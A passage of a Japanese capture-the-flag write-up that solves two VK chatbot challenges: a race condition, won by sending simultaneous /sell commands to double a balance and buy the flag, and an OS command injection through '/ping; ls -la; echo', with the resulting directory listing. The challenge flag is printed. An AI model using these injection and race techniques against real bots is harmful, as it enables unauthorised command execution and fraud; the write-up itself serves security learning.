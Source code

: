 VK 上にデプロイされた bot をハックすればよいようです。DM で `/commands` を送ってみると、以下のようなメッセージが返ってきました。

```
/commands - all commmands
/stat - your statistic
/buy <id product> - buy any product
/sell - sell one any product
/product <id number 1-4> - list of offered goods
```

`/stat` で所持金が `100` であることがわかります。`/product` で `100` で買える商品が 3 つと `101` で買えるフラグが存在していることがわかります。これはレースコンディションでしょう。

`/buy 1` でまず `100` の商品をひとつ買い、`/sell` を何個か同時に実行すると、所持金を `200` に増やすことができました。これでフラグが購入できました。

```
FLAG{RaCe_CtF_C0NdItI0n}
```

## [Web 1983] Some bot (33 solves)
> It’s a well-known fact that Sherlock was on something to have these kinds of superpowers. However, it’s only partly true because he messed up somewhere.
> 
> https://vk.com/club188138010

また VK 上にデプロイされた bot をハックすればよいようです。DM で `/commands` を送ってみると、以下のようなメッセージが返ってきました。

```
/commands - all commands
/id <vk.com/screen_name> - get the digital id from screen name (request(only screen_name): /id vk.com/durov )
/time - time now
/ping - ping hosts (executable command: ping 127.0.0.1). The command accepts your values, but temporarily does not work.
```

OS コマンドを実行していそうな雰囲気があります。私が問題を確認した時点で、[yoshiking](https://twitter.com/y05h1k1ng) さんによって `/ping|ls` を送信するとエラーが発生し、どうやら OS コマンドインジェクションができそうだとわかっていました。

`/ping; ls -la; echo` を送ってみると以下のようなメッセージが返ってきました。

```
total 80
drwxrwxr-x 7 amrtin11 registered_users 4096 Feb 16 15:26 .
drwxr-xr-x 1 0 0 4096 Feb 15 06:15 ..
-rw-rw-r— 1 amrtin11 registered_users 1024 Feb 15 19:02 .3.swp
-rwxr-xr-x 1 amrtin11 registered_users 559 Feb 15 06:11 .bashrc
drwxrwxr-x 3 amrtin11 registered_users 4096 Feb 15 07:09 .cache
-rw-rw-r— 1 amrtin11 registered_users 1024 Feb 15 19:02 .flag.jpg.swp
drwxrwxr-x 7 amrtin11 registered_users 4096 Feb 15 17:20 .git
-rwxr-xr-x 1 amrtin11 registered_users 266 Feb 15 06:11 .gitconfig
drwxrwxr-x 4 amrtin11 registered_users 4096 Feb 15 07:11 .local
drwxrwxr-x 2 amrtin11 registered_users 4096 Feb 15 19:02 .nano
-rw-r--r— 1 amrtin11 registered_users 79 Feb 15 06:11 .profile
-rwxr-xr-x 1 amrtin11 registered_users 77 Feb 15 06:11 .pythonstartup.py
-rwxr-xr-x 1 amrtin11 registered_users 4693 Feb 15 06:11 .vimrc
drwxrwxr-x 2 amrtin11 registered_users 4096 Feb 15 06:15 .virtualenvs
-rwxr-xr-x 1 amrtin11 registered_users 69 Feb 16 10:49 README.html
-rwxr-xr-x 1 amrtin11 registered_users 232 Feb 16 13:33 README.txt
-rw-rw-r— 1 amrtin11 registered_users 1132 Feb 15 06:14 flag.jpg
-rw-rw-r— 1 amrtin11 registered_users 2581 Feb 16 15:26 rce in bot.py
-rw-rw-r— 1 amrtin11 registered_users 14 Feb 16 15:22 test.py
-c 3
```
